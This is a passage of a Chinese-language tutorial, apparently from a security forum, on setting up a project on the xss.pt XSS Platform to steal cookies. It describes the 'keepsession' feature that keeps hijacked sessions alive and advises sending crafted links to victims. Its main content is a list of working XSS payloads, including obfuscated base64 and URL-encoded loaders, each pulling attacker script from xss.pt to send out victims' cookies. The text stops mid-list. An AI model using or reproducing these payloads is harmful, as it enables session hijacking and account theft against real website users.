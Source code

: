 &lt;strong&gt;注意：这里网上有许多搭建的XSS Platform，如果一个不能用可以换别的用，不一定要用我给的这个，甚至可以自己搭建一个XSS Platform。不过下面的过程是我基于这个网站使用的，都大同小异&lt;/strong&gt;

自己搭建XSS Platform可以参考这篇文章：[https://blog.csdn.net/weixin\_50464560/article/details/115355509](https://blog.csdn.net/weixin_50464560/article/details/115355509) (其中`BlueLotus_XSSReceiver(蓝莲花)`的搭建和源码也在里面，如何使用在其中的READEME.md里，还有这篇会更加详细：[https://blog.csdn.net/weixin\_50464560/article/details/115360092](https://blog.csdn.net/weixin_50464560/article/details/115360092)）

&lt;span id="1"&gt;1.&lt;/span&gt;

先使用XSS Platform：[https://xss.pt/，点击“创建项目](https://xss.pt/%EF%BC%8C%E7%82%B9%E5%87%BB%E2%80%9C%E5%88%9B%E5%BB%BA%E9%A1%B9%E7%9B%AE)”。

[![](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-4ec3088d43c42f312f9e9c7297db3576a8b5349e.jpg)](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-4ec3088d43c42f312f9e9c7297db3576a8b5349e.jpg)

打勾“默认模块”，该模块是获取cookie值的。

- 无keepsession
- keepsession

`无keepsession`和`keepsession`的区别:

`keepsession`的意思是保持连接，也就是当获取到目标网站的cookie后，保持这个cookie，因为网站cookie可能是有时效的，比如时效为10分钟，那么当接收到这cookie后，没有及时查看，cookie过期失效了，那么这个cookie就没有用处了。当选择`keepsession`后，没有及时查看，cookie过期失效了，那么这个cookie就没有用处了。当选择`keepsession`后，XSS Platform将会一直在后台刷新cookie，也就是保持这个cookie的有效性，反之，`无keepsession`就是不保持连接。

那么`keepsession` 到底是怎么样实现的呢？看了下代码发现很简单，平台会自动的隔一段时间，遍历整个 `keepsession` 表里面的数据。随后循环对目标服务器进行一次带cookie的请求。这样就实现了维持会话的功能了。

下面的其他模块，各自代表着xss的其他种攻击，具体可在“配置代码”这步选完进去后，在左边的“公共模块”里点击，查看模块信息

[![](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-f3de3b489c4824436dd4f99bae274ecd12f75742.jpg)](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-f3de3b489c4824436dd4f99bae274ecd12f75742.jpg)

以下为部分截图，只要将其中一种代码插入怀疑出现XSS的地方，发给别人，如果有人点击该地址，我们就可在"项目内容"中查看其cookie值

[![](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-b97c178323c574cac2cd37f7bad8a2f42c4a929a.jpg)](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-b97c178323c574cac2cd37f7bad8a2f42c4a929a.jpg)

其中的代码看情况来用。下面写出我比较常用，直接插入构造，访问后cookie可返回到“项目内容”的代码。

```js
图片插件一：  https://xss.pt/GFLXp.jpg    
<Img sRC=https://xss.pt/GFLXp.jpg>

一、
1.<sCRiPt sRC=//xss.pt/GFLX></sCrIpT>

2.标准代码
</tExtArEa>'"><sCRiPt sRC=https://xss.pt/GFLX></sCrIpT>

二、IMG 标签
1.
</tEXtArEa>'"><img src=# id=xssyou style=display:none onerror=eval(unescape(/var%20b%3Ddocument.createElement%28%22script%22%29%3Bb.src%3D%22https%3A%2F%2Fxss.pt%2FGFLX%22%3B%28document.getElementsByTagName%28%22HEAD%22%29%5B0%5D%7C%7Cdocument.body%29.appendChild%28b%29%3B/.source));//>

2.<img src=x onerror=s=createElement('script');body.appendChild(s);s.src='https://xss.pt/GFLX';>

3.通杀火狐谷歌360
<img src=x onerror=eval(atob('cz1jcmVhdGVFbGVtZW50KCdzY3JpcHQnKTtib2R5LmFwcGVuZENoaWxkKHMpO3Muc3JjPSdodHRwczovL3hzcy5wdC9wNzBlPycrTWF0aC5yYW5kb20oKQ=='))>

三、标签iframe等
1.实体10进制编码↓
```